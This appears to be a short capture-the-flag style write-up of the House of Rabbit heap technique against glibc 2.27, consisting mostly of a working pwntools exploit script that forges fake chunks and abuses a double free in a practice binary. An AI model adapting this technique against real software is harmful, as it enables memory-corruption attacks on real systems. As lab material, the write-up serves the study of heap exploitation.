

libc 2.26 introduce a size vs prev_size check when a chunk is malloc'd




luckily, this time we have 0x40 bytes to work with, just enough for us to craft our fake chunk and the succeeding chunk

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./house_of_rabbit_2.27")

context.binary = exe
context.log_level="debug"

script='''
b main
c
c
'''

def malloc(size, data):
    r.recvuntil(">")
    r.sendline("1")
    r.recvuntil("size:")
    r.sendline(str(size).encode())
    r.recvuntil("data:")
    r.send(data)

def free(index):
    r.recvuntil(">")
    r.sendline("2")
    r.recvuntil("index:")
    r.sendline(str(index).encode())

def name(data):
    r.recvuntil(">")
    r.sendline("3")
    r.recvuntil("name:")
    r.send(data)


def main():
    global r
    # r=gdb.debug(exe.path,gdbscript=script)
    r = process(exe.path)

    filler=b"\x00"

    payload=flat(
        0,
        0,
        -0x20,
        0x21,
        0,
        0,
        0x20,
        -0x1f
    )
    r.send(payload)
    malloc(0x18,filler)
    malloc(0x18,filler)

    malloc(0x60000,filler)

    free(2)

    malloc(0x60000,filler)

    free(0)
    free(1)
    free(0)

    malloc(0x18,flat(0x602070,0))
    malloc(0x88,filler)

    free(5)

    payload=flat(
        0,
        0,
        0,
        0x80001
    )
    name(payload)

    malloc(0x80000,filler)

    payload=flat(
        -0x10,
        0,
        0,
        -0xf
    )
    name(payload)

    malloc(-0x80,filler)

    payload=flat(
        "PWNED",
        0
    )

    malloc(0x58,payload)

    r.recvuntil(">")
    r.sendline("4")

    r.interactive()


if __name__ == "__main__":
    main()

```